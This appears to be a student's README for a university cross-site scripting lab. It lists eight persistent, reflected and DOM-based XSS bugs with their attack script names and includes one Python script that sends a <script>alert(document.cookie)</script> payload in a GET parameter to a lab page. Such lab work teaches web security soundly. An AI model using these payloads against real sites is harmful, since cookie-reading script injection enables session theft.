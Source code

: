 

Simplified table from bug_report.xls is show below. 
Its simplified because:

- Student column is not needed because I did not pair with anyone for this lab.
- Flag column is not needed because the flag that the script needs to retrieve is always stored in cookies.
- The mentioned XSS-auditor that was built-into Chrome and Safari is permanently discontinued since 5-August-2019, 
    source: https://www.chromium.org/developers/design-documents/xss-auditor
- There are only three types of XSS in this lab: Persistent, Reflected, Dom-Based
- The scripts should be run without any parameters/flags, but MUST be run with python 3.6

| Bug No. | Bug Categories                | Attack script name |
| ------- | ----------------------------- | ------------------ |
| 1       | a) Server-side persistent XSS | case04.py          |
| 2       | a) Server-side persistent XSS | case19.py          |
| 3       | b) Server-side reflected XSS  | case02.py          |
| 4       | b) Server-side reflected XSS  | case05.py          |
| 5       | b) Server-side reflected XSS  | case07.py          |
| 6       | b) Server-side reflected XSS  | case12.py          |
| 7       | c) DOM-Based XSS              | case15.py          |
| 8       | c) DOM-Based XSS              | case29.py          |



XSS: https://owasp.org/www-community/Types_of_Cross-Site_Scripting
Stored and Reflected: https://owasp.org/www-community/attacks/xss/
DOM-Based: https://owasp.org/www-community/attacks/DOM_Based_XSS



**Scripts were tested with Python 3.6**

For reference the scripts are included below sorted by number:

```python
cat  case02.py
#!/usr/bin/env python3
# pass code via GET as query parameter
import urllib.parse

data = {'name': 'Exploit... <script>alert(document.cookie)</script>'}
data_enc = urllib.parse.urlencode(data)

url_2 = '{}?{}'.format('http://www.wsb.com/Assignment2/case02.php', data_enc)

import webbrowser
#open in new window
webbrowser.open(url_2, new=2)
```
